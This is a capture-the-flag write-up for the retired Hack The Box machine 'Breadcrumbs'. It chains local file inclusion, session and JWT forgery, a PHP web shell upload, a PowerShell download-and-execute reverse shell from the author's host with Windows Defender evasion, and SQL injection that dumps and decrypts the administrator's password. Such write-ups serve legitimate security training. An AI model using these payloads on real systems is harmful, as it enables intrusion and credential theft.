

# Breadcrumbs

This is the write-up for the box Breadcrumbs that got retired at the 17th July 2021.
My IP address was 10.10.14.8 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.228    breadcrumbs.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/breadcrumbs.nmap 10.10.10.228
```

```
PORT     STATE SERVICE       VERSION     
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey:
|   2048 9dd0b8815554ea0f89b11032336aa78f (RSA)
|   256 1f2e67371ab8911d5c3159c7c6df141d (ECDSA)
|_  256 309e5d12e3c6b7c63b7e1ee7897e83e4 (ED25519)
80/tcp   open  http          Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1h PHP/8.0.1)
|_http-title: Library
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1h PHP/8.0.1
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  ssl/http      Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1h PHP/8.0.1)
|_http-title: Library
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1h PHP/8.0.1
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
3306/tcp open  mysql?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The web services on port 80 and 443 are the same.

## Checking HTTP (Port 80)

On the web page is one button _"Check books"_ that forwards to _/php/books.php_ and there is a form to search for titles and authors:


Lets search for hidden directories and PHP files with **Gobuster**:
```
gobuster -u http://10.10.10.228 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

- Directory _/books_ has several HTML files with titles and author names of books
- Directory _/db_ has _db.php_ which forwards to a blank page
- Directory _/portal_ forwards to _/portal/login.php_ which has a login form

The page on _login.php_ shows that my IP is a restricted domain, but it is still possible to sign up an account and login:


The link _helper_ forwards to _/portal/php/admins.php_ with a list of potential usernames:


After login there are three menus with more information:


- _"Check tasks"_ forwards to _/portal/php/issues.php_ with some tasks:


- _"User Management"_ forwards to _/portal/php/users.php_ with more potential usernames:


- _"File Management"_ shows to _/portal/php/files.php_ but forwards to _index.php_

By forwarding _/portal/php/files.php_ to a proxy like **Burpsuite**, it is possible to further analyze this behaviour.
The response is a HTTP status code _302 Found_ and by changing it to _200 OK_, it will forward to the real _files.php_ file:



This page allows to upload files, but when trying to upload something, it shows a message that we have insufficient privileges:
```
Insufficient privileges. Contact admin or developer to upload code.
Note: If you recently registered, please wait for one of our admins to approve it.
```

Our user has the state _"Awaiting approval"_ and a vulnerability has to be found to change that.

### Exploiting Web Application

The first page _/php/books.php_ has a search and the results come from the HTML files in the _/books_ directory.
When clicking the _"Book"_ button on any book, it has the filename in the request:
```
POST /includes/bookController.php HTTP/1.1
(...)

book=book3.html&method=1
```

By changing it to something that does not exist, it shows the PHP function and the path where these files are located on the box:
```
file_get_contents(../books/book1337.html):
Failed to open stream: No such file or directory in C:\Users\www-data\Desktop\xampp\htdocs\includes\bookController.php
```

This has a **Local File Inclusion** vulnerability which can be used to read other files from the web server:
```
book=../index.php&method=1

book=../db/db.php&method=1
```

The file _db.php_ has credentials for the database:
```
$host="localhost";
$port=3306;
$user="bread";
$password="jUli901";
$dbname="bread";

$con = new mysqli($host, $user, $password, $dbname, $port) or die ('Could not connect to the database server' . mysqli_connect_error());
```

The file _/portal/includes/fileController.php_ has the code of the file upload mechanism and in there is the secret key for the **JSON Web Tokens** when authenticating on the server:
```
$secret_key = '6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e';
```

The user to impersonate is _paul_, so the current **JWT** can be modified on [jwt.io](https://jwt.io/):


Now the **PHP session cookie** of _paul_ is needed to use the uploading function.
By searching through more source code, the file _/portal/login.php_ includes _authController.php_ and this includes _cookie.php_, which has the _makesession_ function to generate the PHP session cookie:
```
function makesession($username){
    $max = strlen($username) - 1;
    $seed = rand(0, $max);
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);
```

This function can be copied and modified to generate PHP session cookies for the user _paul_:
```
<?php
function makesession($username, $seed){
    $max = strlen($username) - 1;
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;
}

echo makesession("paul",0);
echo "\r\n";
echo makesession("paul",1);
echo "\r\n";
echo makesession("paul",2);
echo "\r\n";
echo makesession("paul",3);
echo "\r\n";

?>
```

One of the four tokens will work and when replacing the _PHPSESSID_ cookie in the **Developer Tools** in the browser, it will switch accounts to _paul_.
When replacing the _token_ cookie with the newly generated **JWT**, then it is possible to use the uploading function.

### Getting a Shell

Lets upload a simple PHP file as a test:
```
<?php
echo("Test");
?>
```

Changing the file extension in the request from _zip_ to _php_:
```
POST /portal/includes/fileController.php HTTP/1.1
(...)

Content-Disposition: form-data; name="task"

test1.php
```

The file is successfully uploaded to _/portal/uploads/_ and echoes the string, so the PHP code got executed.
This vulnerability can be used to upload a file to execute system commands:
```
<?php
echo shell_exec($_REQUEST['cmd']);
?>
```

Command execution is successful, as the command `whoami` shows the output _breadcrumbs\www-data_:
```
http://10.10.10.228/portal/uploads/test1.php?cmd=whoami
```

To get a reverse shell, the script _Invoke-PowerShellTcp.ps1_ from the **Nishang framework** can be used, but the function name _Invoke-PowerShellTcp_ has to be changed to something else as Windows Defender blocks it otherwise.

Uploading and executing the PowerShell script:
```
POST /portal/uploads/test1.php HTTP/1.1
(...)

cmd=powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/shell.ps1')
```

After sending the request, the script gets executed and the listener on my IP and port 9001 starts a reverse shell as the user _www-data_.

## Privilege Escalation

In the web directory _portal/pizzaDeliveryUserData_ are files that all have the same size except for _juliette.json_:
```
(...)
"username" : "juliette",
"password" : "jUli901./())!",
```

In there are credentials that can be tested on SSH:
```
ssh juliette@10.10.10.228
```

The credentials are working and privileges got escalated to _juliette_.

### Privilege Escalation 2

The file _todo.html_ in the desktop directory of _juliette_ has some potential hints:
```html
<tr>
    <th>Task</th>
    <th>Status</th>
    <th>Reason</th>
</tr>
<tr>
    <td>Configure firewall for port 22 and 445</td>
    <td>Not started</td>
    <td>Unauthorized access might be possible</td>
</tr>
<tr>
    <td>Migrate passwords from the Microsoft Store Sticky Notes application to our new password manager</td>
    <td>In progress</td>
    <td>It stores passwords in plain text</td>
</tr>
<tr>
    <td>Add new features to password manager</td>
    <td>Not started</td>
    <td>To get promoted, hopefully lol</td>
</tr>
```

The second task to migrate the passwords from the **Microsoft Store Sticky Notes application** sounds like it could have credentials.
The location of the data of this application is in _C:/Users/juliette/AppData/Local/Packages/Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe_ and in the folder _LocalState_ are session and SQLite files that can be downloaded to our local client:
```
scp juliette@10.10.10.228:/Users/juliette/AppData/Local/Packages/Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe/LocalState/* .
```

Dumping contents of the SQLite database:
```
sqlite> .dump

sqlite> select * from Note;
```
```
id=48c70e58-fcf9-475a-aea4-24ce19a9f9ec juliette: jUli901./())!
id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g
```

In there are two credentials and the user _development_ is a user on the box, so the credentials could work on SSH:
```
ssh development@10.10.10.228
```

### Privilege Escalation to Administrator

There is a directory _C:/Development_ with a file called _Krypter_Linux_ that can be downloaded to our local client:
```
scp development@10.10.10.228:/Development/Krypter_Linux .
```

The `file` command shows that it is an **ELF binary**, so it has to be analyzed via **Reverse Engineering** with a tool like **Ghidra**:
```
Krypter_Linux: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ab1fa8d6929805501e1793c8b4ddec5c127c6a12, for GNU/Linux 3.2.0, not stripped
```

In the _main function_ there is a description of the tool, which can also be seen when executing it:
```
Krypter V1.2
New project by Juliette.
New features added weekly!
What to expect next update:
- Windows version with GUI support
- Get password from cloud and AUTOMATICALLY decrypt!
```

It makes requests to the hostname _passmanager.htb_ on port 1234:
```
puts("Requesting decryption key from cloud...\nAccount: Administrator");
curl_easy_setopt(local_28,0x2712,"http://passmanager.htb:1234/index.php");
curl_easy_setopt(local_28,0x271f,"method=select&username=administrator&table=passwords");
```

To access this port, it has to be tunneled to our local client:
```
ssh -L 1234:127.0.0.1:1234 development@10.10.10.228
```

Testing the connection:
```
curl http://127.0.0.1:1234/index.php
```
```
Bad Request
```

Sending the request with the specified data:
```
curl http://127.0.0.1:1234/index.php -d "method=select&username=administrator&table=passwords"
```
```
selectarray(1) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
}
```

As this pulls data from a database, we can try some tests to check for **SQL Injection** vulnerabilities.

Adding single quote character after the values:
```
curl http://127.0.0.1:1234/index.php -d "method=select&username=administrator'&table=passwords'"
```
```
<b>Fatal error</b>:  
Uncaught TypeError: mysqli_fetch_all(): Argument #1 ($result) must be of type mysqli_result, bool given in C:\Users\Administrator\Desktop\passwordManager\htdocs\index.php:18

Stack trace:
#0 C:\Users\Administrator\Desktop\passwordManager\htdocs\index.php(18): mysqli_fetch_all(false, 1)
#1 {main}
  thrown in <b>C:\Users\Administrator\Desktop\passwordManager\htdocs\index.php</b> on line <b>18</b><br />
```

It results in an error message and discloses that the web application runs in the user directory of _Administrator_.

SQL Injection to dump _information_schema_ database:
```
curl http://127.0.0.1:1234/index.php -d "method=select&username=administrator' union select schema_name from information_schema.schemata-- -&table=passwords"
```
```
(...)
  [1]=>
  array(1) {
    ["aes_key"]=>
    string(18) "information_schema"
  }
  [2]=>
  array(1) {
    ["aes_key"]=>
    string(5) "bread"
```

Getting table and column names from the database _bread_:
```
curl http://127.0.0.1:1234/index.php -d "method=select&username=administrator' union select concat(table_name,':',column_name) from information_schema.columns where table_schema='bread'-- -&table=passwords"
```
```
(...)
  [1]=>
  array(1) {
    ["aes_key"]=>
    string(12) "passwords:id"
  }
  [2]=>
  array(1) {
    ["aes_key"]=>
    string(17) "passwords:account"
  }
  [3]=>
  array(1) {
    ["aes_key"]=>
    string(18) "passwords:password"
  }
  [4]=>
  array(1) {
    ["aes_key"]=>
    string(17) "passwords:aes_key"
```

Getting the values of the columns of the table _passwords_:
```
curl http://127.0.0.1:1234/index.php -d "method=select&username=administrator' union select concat(account,':',password,':',aes_key) from bread.passwords-- -&table=passwords"
```
```
["aes_key"]=>
    string(75) "Administrator:H2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw=:k19D193j.<19391("
```

There is an encrypted password of the user _Administrator_ and the AES key to decrypt it.
The tool [CyberChef](https://gchq.github.io/CyberChef/) can be used to decrypt the password:
```
1. From Base64

2. AES Decrypt
- Key (Latin1): k19D193j.<19391(
- IV: 00000000000000000000000000000000
- Input: Raw
```

- [Recipe for decrypting the password](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)AES_Decrypt(%7B'option':'Latin1','string':'k19D193j.%3C19391('%7D,%7B'option':'Hex','string':'00000000000000000000000000000000'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=SDJkRnovak53dFNUV0RVUm90OUpCaFdNUDZYT2RtY3BncXZZSEczNVFLdz0)

The decrypted password can be used to authenticate as _Administrator_ via SSH!
```
ssh Administrator@10.10.10.228
```
